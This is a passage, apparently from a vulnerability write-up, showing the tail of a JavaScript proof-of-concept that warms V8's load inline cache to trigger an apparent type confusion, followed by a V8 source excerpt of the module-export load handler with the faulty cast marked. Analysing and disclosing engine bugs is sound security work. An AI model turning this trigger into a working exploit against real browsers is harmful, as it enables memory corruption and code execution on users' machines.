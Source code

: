 ```
        // "zz" is lookup_start_object
        let c = new C();

        c.x0 = 0x42424242 / 2;
        c.x1 = 0x42424242 / 2;
        c.x2 = 0x42424242 / 2;
        c.x3 = 0x42424242 / 2;
        c.x4 = 0x42424242 / 2;

        // LoadWithReceiverIC_Miss
        // => UpdateCaches (Monomorphic)
        // CheckObjectType with "receiver"
        let res = c.m();
    }
    
    for (let i = 0; i < 0x100; i++) {
        trigger();
    }
}

poc();

```

[![](https://camo.githubusercontent.com/0f939c60c55d58e2537adda7ea30cf9ad807d7d5866b5add8e54175053fb5c98/68747470733a2f2f692e696d6775722e636f6d2f6b7073344f794e2e6a7067)](https://camo.githubusercontent.com/0f939c60c55d58e2537adda7ea30cf9ad807d7d5866b5add8e54175053fb5c98/68747470733a2f2f692e696d6775722e636f6d2f6b7073344f794e2e6a7067)

```
void AccessorAssembler::HandleLoadICSmiHandlerLoadNamedCase(
  
  ...
    
  BIND(&module_export);
  {
    Comment("module export");
    TNode<UintPtrT> index =
        DecodeWord<LoadHandler::ExportsIndexBits>(handler_word);
    TNode<Module> module =
        LoadObjectField<Module>(CAST(p->receiver()), JSModuleNamespace::kModuleOffset);  // [0]
    TNode<ObjectHashTable> exports =
        LoadObjectField<ObjectHashTable>(module, Module::kExportsOffset);
    TNode<Cell> cell = CAST(LoadFixedArrayElement(exports, index));
    // The handler is only installed for exports that exist.
    TNode<Object> value = LoadCellValue(cell);
    Label is_the_hole(this, Label::kDeferred);
    GotoIf(IsTheHole(value), &is_the_hole);
    exit_point->Return(value);

    ...
  
  }


```

